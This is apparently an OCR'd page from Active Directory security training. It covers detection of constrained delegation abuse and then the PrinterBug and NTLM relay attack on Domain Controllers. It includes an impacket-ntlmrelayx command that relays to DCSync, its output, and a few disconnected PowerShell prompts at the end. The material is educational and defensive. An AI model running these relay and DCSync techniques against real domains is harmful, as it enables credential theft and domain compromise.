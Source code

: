 We should treat any account configured for delegation as extremely privileged, regardless of its actual privileges (such as being only a Domain user). Cryptographically secure passwords are a must, as we don't want `Kerberoasting` giving threat agents an account with delegation privileges.

## Detection

Correlating users' behavior is the best technique to detect `constrained delegation` abuse. Suppose we know the location and time a user regularly uses to log in. In that case, it will be easy to alert on other (suspicious) behaviors—for example, consider the account 'Administrator' in the attack described above. If a mature organization uses `Privileged Access Workstations` (`PAWs`), they should be alert to any privileged users not authenticating from those machines, proactively monitoring events with the ID `4624` (successful logon).

In some occasions, a successful logon attempt with a delegated ticket will contain information about the ticket's issuer under the `Transited Services` attribute in the events log. This attribute is normally populated if the logon resulted from an `S4U` (`Service For User`) logon process.

`S4U` is a Microsoft extension to the Kerberos protocol that allows an application service to obtain a Kerberos service ticket on behalf of a user; if we recall from the attack flow when utilizing `Rubeus`, we specified this `S4U` extension.

# Printer Spooler & NTLM Relaying

The [Print Spooler](https://learn.microsoft.com/en-us/windows/win32/printdocs/print-spooler) is an old service enabled by default, even with the latest Windows Desktop and Servers versions. The service became a popular attack vector when in 2018, `Lee Christensen` found the `PrinterBug`. The functions `RpcRemoteFindFirstPrinterChangeNotification` and `RpcRemoteFindFirstPrinterChangeNotificationEx` can be abused to force a remote machine to perform a connection to any other machine it can reach. Moreover, the reverse connection will carry authentication information as a `TGT`. Therefore, any domain user can coerce `RemoteServer$` to authenticate to any machine. Microsoft's stance on the `PrinterBug` was that it will not be fixed, as the issue is "by-design".

The impact of `PrinterBug` is that any Domain Controller that has the Print Spooler enabled can be compromised in one of the following ways:

1. Relay the connection to another DC and perform DCSync (if `SMB Signing` is disabled).
2. Force `Domain Controller` to connect to a machine configured for `Unconstrained Delegation` (`UD`) - this will cache the `TGT` in the memory of the `UD server`, which can be captured/exported with tools like Rubeus and Mimikatz.
3. Relay the connection to `Active Directory Certificate Services` to obtain a certificate for the `Domain Controller`. Threat agents can then use the certificate on-demand to authenticate and pretend to be the Domain Controller (e.g., DCSync).
4. Relay the connection to configure `Resource-Based Kerberos Delegation` for the relayed machine. We can then abuse the delegation to authenticate as any Administrator to that machine.

## The Attack

In this attack path, we will relay the connection to another DC and perform `DCSync` (i.e., the first compromise technique listed). For the attack to succeed, SMB Signing on Domain Controllers must be turned off.

To begin, we will configure `NTLMRelayx` to forward any connections to DC2 and attempt to perform the DCSync attack:
```bash
$ impacket-ntlmrelayx -t dcsync://172.16.18.4 -smb2support

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Protocol Client SMTP loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client RPC loaded..
```

[dc1]: PS C:\Users\Administrator\Documents> hostname
[dc1]: PS C:\Users\Administrator\Documents> whoami
[dc1]: PS C:\Users\Administrator\Documents>
[PKI]: PS C:\Users\htb-student\Documents> Get-WINEvent -FilterHashtable @{Logname='Security'; ID='4886'}
[PKI]: PS C:\Users\htb-student\Documents> Get-WINEvent -FilterHashtable @{Logname='Security'; ID='4887'}
[pki]: PS C:\Users\htb-student\Documents> $events = Get-WinEvent -FilterHashtable @{Logname='Security'; ID='4886'}
[pki]: PS C:\Users\htb-student\Documents> $events[0] | Format-List -Property *